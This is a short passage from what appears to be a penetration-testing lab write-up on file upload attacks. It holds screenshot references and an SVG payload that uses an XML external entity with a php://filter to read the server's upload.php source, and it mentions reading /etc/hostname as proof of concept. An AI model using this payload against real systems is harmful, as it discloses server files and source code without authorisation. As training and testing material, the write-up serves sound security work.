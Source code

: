 ![upload-skills assess Client Side](/images/upload-skills-assess-clientside.png)  

### SVG XML Upload  

>Enumerate if possible to upload SVG extension with XML content.  

![upload-skills-assess-xml-svg](/images/upload-skills-assess-xml-svg.png)  

>Successfully read file `/etc/hostname` as POC.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/contact/upload.php"> ]>
<svg>&xxe;</svg>
```  
